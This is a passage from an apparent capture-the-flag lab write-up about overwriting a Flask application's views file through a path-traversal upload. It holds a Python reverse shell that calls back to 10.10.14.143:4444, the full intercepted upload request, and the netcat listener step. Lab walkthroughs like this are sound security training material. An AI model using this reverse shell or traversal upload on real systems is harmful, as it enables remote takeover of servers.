 
I modified it to add a new `/shell` endpoint.

```bash
@app.route('/shell')
def shell():
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.143",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])

    return render_template('index.html')
```


Then I uploaded the modified file. I used Burp to modify the filename and overwrite the code that was serving the application.

```http
POST /upcloud HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------246307162433279561281974372034
Content-Length: 1447
Origin: http://target.htb
Connection: close
Referer: http://target.htb/upcloud
Cookie: __wzdd1fca5944e3e586a8caa=1654426481|047d61f17eac
Upgrade-Insecure-Requests: 1

-----------------------------246307162433279561281974372034
Content-Disposition: form-data; name="file"; filename="..//app/app/views.py"
Content-Type: text/x-python

import socket,subprocess,os

...
```

Lastly, I started a netcat listener and navigated to http://target.htb/shell.